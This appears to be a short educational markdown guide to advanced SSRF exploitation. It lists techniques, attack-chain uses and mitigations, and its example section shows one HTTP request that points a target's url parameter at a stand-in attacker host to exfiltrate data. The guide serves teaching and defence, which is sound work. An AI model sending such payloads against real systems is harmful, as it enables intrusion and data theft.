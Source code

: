 # SSRF and Beyond - Advanced Exploitation Techniques

## Table of Contents

1. [Introduction](#introduction)
2. [Advanced SSRF Exploitation Techniques](#advanced-ssrf-exploitation-techniques)
3. [SSRF as Part of a Complex Attack Chain](#ssrf-as-part-of-a-complex-attack-chain)
4. [Mitigation Strategies](#mitigation-strategies)
5. [Example: Advanced SSRF Exploitation](#example-advanced-ssrf-exploitation)
6. [References](#references)

---

## 1. Introduction

Server-Side Request Forgery (SSRF) vulnerabilities, when combined with advanced exploitation techniques, can become a potent weapon for attackers. This document delves into sophisticated methods that adversaries may employ to exploit SSRF and explores scenarios where SSRF plays a crucial role in complex attack chains.

## 2. Advanced SSRF Exploitation Techniques

- **Blind SSRF:**
  - Attackers may leverage blind SSRF to make requests without receiving direct responses. This makes detection and mitigation challenging.

- **Time-Based Attacks:**
  - Exploiting time delays in SSRF responses to infer the success or failure of a request.

- **DNS Rebinding:**
  - Attackers manipulate DNS responses to change the IP address associated with a domain after the initial request is made.

- **Protocol Smuggling:**
  - Abusing ambiguities in parsing protocols to smuggle SSRF requests through different communication layers.

- **HTTP Parameter Pollution (HPP):**
  - Exploiting ambiguities in URL parameter handling to manipulate the server into making unintended requests.

## 3. SSRF as Part of a Complex Attack Chain

- **Lateral Movement:**
  - SSRF can be used to access internal resources, enabling lateral movement within a network and escalating the attack.

- **Data Exfiltration:**
  - Combine SSRF with other vulnerabilities to exfiltrate sensitive data from internal systems.

- **Bypassing Network Security Controls:**
  - SSRF may be employed to bypass network security controls, such as firewalls or Intrusion Detection Systems (IDS).

- **Service Token Theft:**
  - Exploiting SSRF to steal service tokens or credentials, enabling unauthorized access to cloud services.

- **Cross-Site Scripting (XSS) Integration:**
  - Incorporating SSRF within a broader attack, such as combining it with XSS for increased impact.

## 4. Mitigation Strategies

- **Outbound Traffic Monitoring:**
  - Implement comprehensive monitoring for outbound traffic to detect unusual patterns indicative of advanced SSRF attacks.

- **Regular Expression Hardening:**
  - Securely configure regular expressions used for input validation to prevent bypasses in SSRF attempts.

- **Protocol Whitelisting:**
  - Whitelist only the necessary protocols to limit the potential attack surface.

- **Rate Limiting and Throttling:**
  - Implement rate limiting and throttling mechanisms to detect and mitigate time-based SSRF attacks.

- **Secure DNS Configuration:**
  - Regularly audit and secure DNS configurations to prevent DNS rebinding attacks.

## 5. Example: Advanced SSRF Exploitation

Consider an application with a blind SSRF vulnerability. An attacker sends the following payload to infer the internal network's existence:

```http
GET /api/endpoint?url=http://malicious-attacker-server.com/collect-data HTTP/1.1
Host: target-application.com
```

The attacker, not expecting a direct response, monitors their server logs for incoming requests, effectively exfiltrating information.

# References
- [Portswigger SSRF](https://portswigger.net/web-security/ssrf)

